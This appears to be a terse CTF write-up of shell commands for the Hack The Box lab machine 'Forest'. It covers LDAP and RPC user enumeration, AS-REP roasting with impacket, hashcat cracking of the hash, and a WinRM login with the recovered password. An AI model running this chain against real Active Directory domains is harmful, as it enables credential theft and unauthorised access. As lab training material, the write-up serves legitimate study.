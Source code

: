 # Forest - Easy

```shell
nmap -T4 -p- -A -Pn -v 10.10.10.161

smbmap -H 10.10.10.161
#no shares listed

#enumerating ldap using ldapsearch
ldapsearch -H ldap://10.10.10.161 -x
#we need to specify DN

ldapsearch -H ldap://10.10.10.161 -x -s base namingcontexts
#this gives DC=htb,DC=local

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" 
#ldap search query

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" "objectclass=user"
#find user accounts

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" "objectclass=user" sAMAccountName | grep sAMAccountName
#gives possible usernames

ldapsearch -H ldap://10.10.10.161 -x -b "DC=htb,DC=local" "objectclass=user" sAMAccountName | grep sAMAccountName | awk -F ": " '{print $2}' > ldapusers.txt
#filter possible usernames and save it to file

vim ldapusers.txt
#remove the unnecessary usernames

enum4linux 10.10.10.161
#gives another username 'svc-alfresco'

rpcclient -U "" -N 10.10.10.161
#enumerate using rpcclient

enumdomusers
#enumerate users in rpcclient
#this also shows username 'svc-alfresco'

enumdomgroups
#enumerate groups

querygroup 0x13ed

queryusergroups 0x47b
#query groups for svc-alfresco user
#shows groups 0x201 and 0x47c

querygroup 0x201

querygroup 0x47c

#kerberoasting using impacket
GetNPUsers.py -dc-ip 10.10.10.161 htb.local/ -usersfile ldapusers.txt -request
#this gives us a hash

hashcat -a 0 -m 18200 krbhash.txt /usr/share/wordlists/rockyou.txt
#cracks the hash

evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161
```